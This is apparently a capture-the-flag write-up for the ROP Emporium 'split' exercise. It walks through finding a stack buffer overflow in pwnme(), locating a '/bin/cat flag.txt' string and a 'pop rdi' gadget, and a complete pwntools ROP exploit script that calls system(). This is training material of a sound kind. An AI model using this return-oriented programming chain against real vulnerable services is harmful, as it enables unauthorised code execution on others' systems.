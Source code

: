 # Split

## First look

```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ checksec split
[*] '/home/vein/rop_emporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ./split     
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> test
Thank you!

Exiting
```
The NX is enabled so it prevents running code into the stack, so we can't do a shellcode attack

## Static Analysis

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("split by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

```c
void pwnme(void)

{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_28,0x60);
  puts("Thank you!");
  return;
}
```
```c

void usefulFunction(void)

{
  system("/bin/ls");
  return;
}
```
We open Ghidra and we saw that a pwnme() function is called by the main.
We see that has a buffer overflow in the local_28 variable cause it's 32 bytes long
and the read() takes up to 96 = 0x60

# Exploitation
Challeneg description talks about a string that we maybe need to solve it.
We found it with rabin2 but we also can with Ghidra and with pwndbg.
It's the "/bin/cat flag.txt"
```asm
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ rabin2 -z split  
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```
What we want to do is to navigate to usefulFunction() function and put inside the system()
the string "/bin/cat flag.txt" to take the flag.
To achieve this we want a rop gadget to pop it into the stack
```asm
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ropper -f split --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret;
```

So, now we are ready to craft our payload.
Here is the python script
```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./split', checksec=False)
p = process()
context.log_level = 'info'

offset = b'a' * 40

pop_rdi = 0x4007c3      # pop rdi; ret;
bin_cat = 0x601060      # /bin/cat flag.txt
system_addr = 0x40074b  # and the system()

payload = offset
payload += p64(pop_rdi)
payload += p64(bin_cat)
payload += p64(system_addr)

p.sendlineafter(b'>', payload)
log.info(p.recvuntil(b'}')) # to receive only until the end of the flag
```
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ./exploit.py                      
[+] Starting local process '/home/vein/rop_emporium/split/split': pid 8091
/home/vein/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is nots
  self._log(logging.INFO, message, args, kwargs, 'info')
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/home/vein/rop_emporium/split/split' (pid 8091)
```
